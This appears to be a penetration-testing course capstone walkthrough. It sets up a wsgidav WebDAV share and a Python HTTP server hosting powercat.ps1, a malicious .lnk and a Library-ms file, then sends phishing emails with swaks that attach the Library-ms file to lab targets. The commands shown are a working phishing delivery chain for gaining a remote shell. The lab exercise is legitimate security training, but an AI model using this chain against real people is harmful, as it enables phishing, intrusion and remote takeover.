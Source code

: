 ```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: 192.168.202.199
USER: dave.wizard@supermagicorg.com
DOMAIN: dave.wizard@supermagicorg.com
SENDER: test@supermagicorg.com
---
```

- sudo swaks -t <span id="USER"/>dave.wizard@supermagicorg.com<span type="end"/> --from test@supermagicorg.com --attach @config.Library-ms --server 192.168.202.199 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
- sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com --attach @config.Library-ms --server 192.168.202.199 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

Walkthrough
**STEP II - Wsgidav + Python3 HTTP Server + Swaks attack **

*Capstones are meant to be done after you are done with the training material and you bounce back to sharpen your skills with this type of exercise called capstones!  Swaks is learned in module 24, so if you want to do the capstone observe carefully the videos regarding Swaks - 25.3.2. Phishing for Access *

Follow the exact steps as **Kali user (not root)** to install `wsgidav`

1. After you create the **webdav** folder at `/home/kali/webdav` and copy-pasted both files in the same folder like I showed upper, make sure you add **powercat.ps1 **there, including a new file named **body.txt** (content can be anything)
**NOTE: **You should have by now 4 files there : `automatic_configuration.lnk` , `config.Library-ms`, `powercat.ps1` and `body.txt` 

2. Make sure to open `wsgidav sharing the webdav folder where you have the files  ```/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/```  
**NOTE:** Do a test on your Kali Browser and go to http://tun0_IP ! If you see the wsgidav server you are good until here! 

3. In the same folder webdav , open `Python3 HTTP Server` (to be safer I usually recommend opening the folder, right-click on it, and open terminal )  
```python3 -m http.server 8000```
 **NOTE:** Wsgidav is hosted on port 80 and Python3 HTTP Server is opened on port 8000! 

4. Swaks attack (as shown in 25.3.2 Pishing for Access) 
```sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap```

**Do the command in the same folder where you have all 4 files, meaning in this location -> /home/kali/webdav (else it fails to attach config.Library-ms and body.txt when you execute it!)**